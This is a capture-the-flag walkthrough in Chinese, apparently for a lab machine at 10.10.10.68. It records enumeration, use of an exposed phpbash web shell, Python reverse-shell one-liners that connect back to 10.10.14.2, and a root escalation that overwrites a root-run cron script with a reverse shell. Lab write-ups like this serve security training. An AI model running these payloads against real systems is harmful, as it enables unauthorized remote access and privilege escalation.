### nmap扫描

```bash
sudo nmap -T4 -Pn -A -sV -vv -sS --script=vuln -p- 10.10.10.68
```

扫描结果，只有80端口开放



### 访问http\://10.10.10.68



发现项目地址

```bash
https://github.com/Arrexel/phpbash

```





关键信息，找到这两个文件的路径

```bash
phpbash.min.php
phpbash.php

```

F12看一下源码

图片路径存在目录遍历，不过没发现敏感信息



### 扫描web路径

dirb  （这个不好用，特别慢）



推荐使用Dirbuster，支持多线程



发现dev路径，发现关键文件



访问，直接获得交互式shell，但是权限较低，后面要提权

```bash
http://10.10.10.68/dev/phpbash.php
```

先获取一个flag



### 反弹交互式shell

本地监听

```bash
nc -lvp 23333

#这里试了下端口号比较小好像会断（6666，7777），不知道什么原因
```

靶机执行

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",23333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



### 提权

下载linux提权检测脚本到本地

```bash
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS/builder
```

### 本地监听80，靶机下载提权文件检测脚本

```bash
wget -P /tmp http://10.10.14.2/linpeas.sh

chmod 777 linpeas.sh

./linpeas.sh


```



发现该用户可直接登录

```bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

```bash
#执行
sudo -u scriptmanager /bin/bash

#升级交互式shel
python -c 'import pty; pty.spawn("/bin/bash")'

```



再执行一下提权检测脚本

检测到这个py文件当前用户拥有读写权限。

```bash
/scripts/test.py
```



### 使用pspy监听一下进程的执行情况

```bash
https://github.com/DominicBreuker/pspy


wget -P /tmp/ http://10.10.14.2/pspy32

chmod 777 pspy32

./pspy32
```



发现test.py是root(uid=0)在执行，同时当前用户可以读写test.py



直接改写test.py内容为反弹shell，root执行test.py时就会把root权限的shell反弹回来。

本地监听另外一个端口



### 改写test.py

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",23334));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'>/scripts/test.py
```

### 等待一分钟获得root权限shell


